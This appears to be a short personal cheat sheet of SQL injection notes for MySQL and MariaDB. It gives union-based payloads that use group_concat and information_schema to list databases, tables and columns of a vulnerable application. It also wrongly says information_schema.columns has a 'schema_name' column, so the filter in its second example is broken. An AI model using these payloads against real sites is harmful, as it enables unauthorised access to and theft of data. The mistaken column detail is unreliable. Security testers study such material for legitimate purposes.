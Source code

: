 # SQLi concat multiple values into one field rows mysql mariadb
`group_concat( query )`
`... union select 1,2,group_concat(schema_name) from information_schema.schemata`

# SQLi union injection in mysql and mariadb
# SQLi mysql mariadb information tables
`information_schema` is name of metadata database
`information_schema.schemata` is names of databases in `schema_name` column
`information_schema.columns` is names of tables and columns 
  - column `column_name` has names of columns
  - column `table_name`
  - column `schema_name` is database name
Example union injection
`... union select 1,2,group_concat(concat(table_name, ':', column_name)) from information_schema.columns where schema_name='interesting_db'`
